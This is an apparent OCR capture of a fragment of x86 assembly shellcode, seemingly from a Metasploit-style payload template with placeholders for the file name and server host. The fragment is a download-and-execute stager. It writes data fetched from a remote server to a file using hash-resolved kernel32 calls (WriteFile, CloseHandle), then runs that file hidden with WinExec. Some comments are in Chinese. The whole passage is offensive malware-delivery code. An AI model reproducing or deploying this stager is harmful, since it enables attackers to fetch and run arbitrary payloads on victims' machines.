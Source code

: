 		  test eax,eax        ; download failed? (optional?)
		  jz thats_all_folks  ; failure -> exit
		
		  pop eax             ; how many bytes did we retrieve ?
		
		  test eax,eax        ; optional?
		  je close_and_run    ; continue until it returns 0
		
		write_to_file:
		  push 0              ; lpOverLapped
		  push esp            ; lpNumberOfBytesWritten
		  push eax            ; nNumberOfBytesToWrite
		  lea eax,[esp+0xc]   ; get pointer to buffer
		  push eax            ; lpBuffer
		  push ebx            ; hFile
		  push 0x5BAE572D     ; kernel32.dll!WriteFile  将下载数据写入文件
		  call ebp
		  sub esp,4           ; set stack back to where it was
		  jmp.i8 download_more
		
		close_and_run:
		  push ebx
		  push 0x528796C6    ; kernel32.dll!CloseHandle
		  call ebp
		
		execute_file:
		  push 0             ; don't show
		  push edi           ; lpCmdLine
		  push 0x876F8B31    ; kernel32.dll!WinExec  exe执行
		  call ebp
		
		thats_all_folks:
		  #{exitasm}
		
		get_filename:
		  call get_filename_return
		  db "#{filename}",0x00
		
		get_server_host:
		  call internetconnect
		
		server_host:
		  db "#{server_host}", 0x00
